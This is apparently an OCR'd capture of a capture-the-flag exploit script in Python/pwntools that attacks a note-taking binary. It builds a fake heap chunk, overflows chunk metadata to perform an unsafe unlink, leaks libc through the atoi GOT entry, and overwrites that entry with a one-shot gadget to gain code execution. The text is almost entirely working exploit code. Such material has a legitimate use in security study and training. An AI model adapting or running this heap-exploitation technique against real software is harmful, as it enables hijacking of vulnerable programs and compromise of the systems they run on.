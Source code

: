 ```
    target.sendline("2")
    print target.recvuntil("note:")
    target.sendline("0")
    print target.recvuntil("Content is ")
    leak = target.recvline().strip("\x0a")
    leak = u64(leak + "\x00"*(8-len(leak)))
    return leak

# Send data for the address / name
# For our exploit, this really doesn't matter (much like Aqua)
target.sendline("15935728")
target.sendline("15935728")


ptr = 0x602120

fakeChunk = ""

fakeChunk += p64(0x0)            # Previous Size
fakeChunk += p64(0xa0)            # Size
fakeChunk += p64(ptr - (0x8*3))        # FD ptr
fakeChunk += p64(ptr - (0x8*2))        # BK ptr
fakeChunk += p64(0x0)            # FD Next Size

# Allocate the heap chunk and store the fake chunk
addNote(fakeChunk, 0x80)

# For me, IO For this challenge was a bit weird. I needed to insert lines like these in order
# for the input the happen properly.
target.sendline("1")

# Add the second chunk, which will free and reallocate for the overflow
addNote("1"*0x8, 00)
target.sendline("1")

# This is the third chunk which we will overflow it's heap metadata to point to the fake chunk as a freed previous chunk
addNote("2"*0x80, 0x80)
target.sendline("1")

# Free the second chunk, reallocate it and overflow the heap metatda's previous size and size
deleteNote(1)

addNote("5"*0x10 + p64(0xa0) + p64(0x90), 0)
target.sendline("1")


# Free the third chunk (with the overwritten heap metadata) to execute the unlink
deleteNote(2)

# Now that the unlink happened, write the got entry address for atoi to the heap pointers array
editNote(0, "6"*24 + p64(elf.got['atoi']), 1)

# Leak the libc address of atoi, calculate our oneshot gadget address
leak = showNote(0)
libcBase = leak - libc.symbols['atoi']
oneShot = libcBase + 0xf02a4

print "libc base: " + hex(libcBase)
print "oneshot gadget: " + hex(oneShot)

# Write over the got entry for atoi with the oneshot gadget
editNote(0, p64(oneShot), 1)
```